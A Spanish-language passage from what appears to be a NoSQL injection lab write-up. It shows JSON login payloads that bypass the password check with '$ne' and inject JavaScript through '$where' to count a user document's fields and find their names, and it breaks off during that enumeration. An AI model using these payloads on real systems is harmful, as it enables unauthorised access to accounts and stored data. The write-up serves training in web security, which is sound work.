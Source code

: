 Como podemos `inyectar código JavaScript`, vamos a `crear` una `función` que nos diga cuantos `campos` tiene este `documento`, en este caso vemos que tiene `cinco campos`

```
{
  "username": "carlos",
  "password": { "$ne": "testing" },
  "$where": "function(){ if(Object.keys(this)[4]) return 1; else 0; }"
}
```

![](/assets/img/NoSQLI-Lab-4/image_18.png)

Sabemos que tiene `5 campos` porque `el índice empieza en 0` y `si intentamos acceder al campo número 5 nos devuelve una respuesta no exitosa`

![](/assets/img/NoSQLI-Lab-4/image_19.png)

Una vez sabemos que el documento tiene `5 campos` vamos a averiguar cual es el `nombre` de esos `campos`

```
{
  "username": "carlos",
  "password": {
    "$ne": "testing"
  },
  "$where": "function(){ if(Object.keys(this)[0].match('_id')) return 1; else 0; }"
}
```
